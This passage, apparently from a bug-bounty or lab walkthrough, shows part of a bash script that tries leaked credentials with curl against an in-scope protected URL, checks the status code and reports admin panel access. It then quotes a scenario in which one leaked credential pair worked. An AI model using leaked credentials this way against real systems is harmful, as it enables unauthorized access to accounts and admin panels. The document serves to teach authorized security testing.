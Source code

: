     echo "[EXPLOIT ATTEMPT] Trying credentials on in-scope URL: ${IN_SCOPE_PROTECTED_URL}"
    echo "  Username: ${LEAKED_USERNAME}"
    echo "  Password: [REDACTED]"

    # -u username:password for Basic Auth
    # -v for verbose output (to see request and response headers)
    # -s for silent (less output, but -v overrides some of it)
    # -L to follow redirects
    # -k if your lab uses self-signed SSL for HTTPS (remove for valid certs)
    # Add --head for quicker check if you only care about status code initially
    curl -s -L -k -u "${LEAKED_USERNAME}:${LEAKED_PASSWORD}" "${IN_SCOPE_PROTECTED_URL}" -v -o "exploit_attempt_output.html"

    # Check response code from verbose output or by re-running with -w "%{http_code}"
    http_status_after_auth=$(curl -s -L -k -o /dev/null -w "%{http_code}" -u "${LEAKED_USERNAME}:${LEAKED_PASSWORD}" "${IN_SCOPE_PROTECTED_URL}")
    
    echo "[EXPLOIT RESPONSE] HTTP Status after auth attempt: ${http_status_after_auth}"
    if [ "${http_status_after_auth}" = "200" ]; then
        echo -e "\033[0;32m[SUCCESS!] Authentication successful (200 OK). Admin panel access likely gained.\033[0m"
        echo "         Content saved to exploit_attempt_output.html. Review it."
    elif [ "${http_status_after_auth}" = "401" ] || [ "${http_status_after_auth}" = "403" ]; then
        echo -e "\033[0;31m[FAILURE] Authentication failed (Status: ${http_status_after_auth}). Credentials incorrect or access still denied.\033[0m"
    else
        echo "[INFO] Unexpected HTTP status: ${http_status_after_auth}. Review exploit_attempt_output.html."
    fi
    ```
*   **Scenario Outcome:** "I replaced them in the subdomain in scope and one of them worked correctly and I got access to the admin panel. Now I’m In." This implies the `curl` (or browser attempt) resulted in a `200 OK` and access to the admin panel content.

---

## 6. Phase 4: Verification & Post-Exploitation (Ethical)
